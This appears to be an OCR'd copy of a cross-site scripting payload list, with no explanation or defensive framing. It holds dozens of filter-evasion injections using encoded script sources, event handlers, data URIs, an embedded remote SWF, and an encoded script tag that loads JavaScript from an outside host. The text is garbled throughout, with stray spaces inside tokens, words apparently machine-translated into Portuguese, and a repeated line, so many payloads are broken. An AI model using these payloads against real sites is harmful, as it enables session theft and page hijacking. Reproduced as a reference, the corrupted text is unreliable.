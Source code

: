 <meta http-equiv = "atualizar" content = "0; javascript & colon; alert (1)" />
<math> <a xlink:href="//jsfiddle.net/t846h/"> clique

<embed code = "http://businessinfo.co.uk/labs/xss/xss.swf" allowcriptaccess = always>
<svg contentScriptType = text / vbs> <script> MsgBox + 1

<a href="data:text/html;base64_,<svg/onload=\u0061le%72t(1)> "> X </ a

<iframe / onreadystatechange = \ u0061 \ u006C \ u0065 \ u0072 \ u0074 ('\ u0061') worksinIE>

<script> ~ '\ u0061'; \ u0074 \ u0068 \ u0072 \ u006F \ u0077 ~ \ u0074 \ u0068 \ u0069 \ u0073. \ u0061 \ u006C \ u0065 \ u0072 \ u0074 (~ '\ u0061') </ script U +

<script / src = "data & colon; text% 2Fj \ u0061v \ u0061script, \ u0061lert ('\ u0061')"> </ script a = \ u0061 & / =% 2F
<script / src = data & colon; text / j \ u0061v \ u0061 & # 115 & # 99 & # 114 & # 105 & # 112 & # 116, \ u0061% 6C% 65% 72% 74 (/ XSS /)> </ script

<object data = javascript & colon; \ u0061 & # x6C; & # 101% 72t (1)>

<script> + - + - 1 - + - + alert (1) </script>

<body / onload = & lt;! - & gt; & # 10alert (1)>

<script itworksinallbrowsers> / * <script * * / alert (1) </ script

<img src? itworksonchrome? \ / onerror = alert (1)

<svg> <script> // & NewLine; confirm (1); </ script </svg>
<svg> <script onlypossibleinopera: -)> alert (1)

<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=javascript:alert(1)> ClickMe

<script x> alert (1) </ script 1 = 2

<div / onmouseover = 'alert (1)'> style = "x:">

<- `<img / src =` onerror = alert (1)> -!>
 <script / src = & # 100 & # 97 & # 116 & # 97: text / & # x6a & # x61 & # x76 & # x61 & # x73 & # x63 & # x72 & # x69 & # x000070 & # x074, & # x0061; & # x06c; & # x0065 ; & # x00000072; & # x00074; (1)> </script>

<div style = "xg-p: absolute; top: 0; left: 0; width: 100%; height: 100%" onmouseover = "prompt (1)" onclick = "alert (1)"> x </ botão >

"> <img src = x onerror = window.open ('https://www.google.com/');>

<form> <button formaction = javascript & colon; alert (1)> CLICKME

<math> <a xlink:href="//jsfiddle.net/t846h/"> clique

<object data = data: text / html; base64, PHN2Zy9vbmxvYWQ9YWxlcnQoMik +> </object>

<iframe src = "dados: texto / html,% 3C% 73% 63% 72% 69% 70% 74% 3E% 61% 6C% 65% 72% 74% 28% 31% 29% 3C% 2F% 73% 63% 72% 69% 70% 74% 3E "> </iframe>

<a href = "data: text / html; blabla, & # 60 & # 115 & # 99 & # 114 & # 105 & # 112 & # 116 & # 32 & # 115 & # 114 & # 99 & # 61 & # 34 & # 104 & # 116 & # 116 & # 112 & # 58 & # 47 & # 47 & # 115 & # 116 & # 101 & # 114 & # 110 & # 101 & # 102 & # 97 & # 109 & # 105 & # 108 & # 121 & # 46 & # 110 & # 101 & # 116 & # 47 & # 102 & # 111 & # 111 & # 46 & # 106 & # 115 & # 34 & # 62 & # 60 & # 47 & # 115 & # 99 & # 114 & # 105 & # 112 & # 116 & # 62 & # 8203 "> Clique aqui </a>
